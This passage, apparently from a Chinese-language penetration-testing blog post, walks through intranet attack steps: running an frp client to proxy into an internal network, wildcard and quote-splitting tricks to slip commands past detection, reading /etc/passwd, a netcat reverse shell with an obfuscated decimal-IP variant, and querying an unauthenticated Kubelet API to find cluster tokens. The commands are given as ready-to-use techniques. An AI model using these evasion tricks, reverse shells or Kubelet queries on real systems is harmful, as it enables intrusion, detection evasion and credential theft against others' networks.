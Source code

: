 通过 `./frpc -c ./frpc.ini`启动客户端

![](https://blog.riskivy.com/wp-content/uploads/2019/02/32.png)

在浏览器中，使用 SwitchyOmega 配置公网 IP 及代理端口 6004，输入账号和密码。使用代理实现对内网服务器主机的访问, 前提是不和客户端在同一出口 IP 下

![](https://blog.riskivy.com/wp-content/uploads/2019/02/38.png)

#### 4.2 内网命令执行绕过

由于命令特征明显，容易被具有强特征检测的设备发现。可采用通配符的方式进行绕过，在 windows 中的案例如下：

```
C:\\>powershell C:\\??\*?\\\*3?\\c?lc.?x? calc
C:\\>powershell C:\\\*\\\*2\\n??e\*d.\* notepad
C:\\>powershell C:\\\*\\\*2\\t?s\*r.\* taskmgr


```

![](https://blog.riskivy.com/wp-content/uploads/2019/02/34.png)

linux 环境下命令执行，绕过方式如下：

```
/bin/cat /etc/passwd
/b'i'n/c'a't /e't'c/p'a's's'w'd'
/???/?at /???/????w?
/??'?'/?at /???/????w?


```

![](https://blog.riskivy.com/wp-content/uploads/2019/02/35.png)

通过 NetCat 命令执行反弹 shell

```
nc -e /bin/bash 127.0.0.1 1337
/???/?c.??????????? -e /???/b??h 2130706433 1337


```

![](https://blog.riskivy.com/wp-content/uploads/2019/02/37.png)

更多命令的绕过方式可参考如下文章`https://medium.com/secjuice/waf-evasion-techniques-718026d693d8`

#### 4.3 集群认证的获取和利用

在探测过程中发现未授权访问访问的 Kublet API, 通过 `curl -s https://k8-node:10250/runningpods/` 获取到 pod 信息。

##### 4.3.1 通过 env 获取信息

接着根据这些信息，检查 `env` 并查看 kublet 令牌是否在环境变量中。取决于云提供商或托管服务提供商，否则我们需要从以下位置检索它们：

*   挂载目录
*   云元数据网址
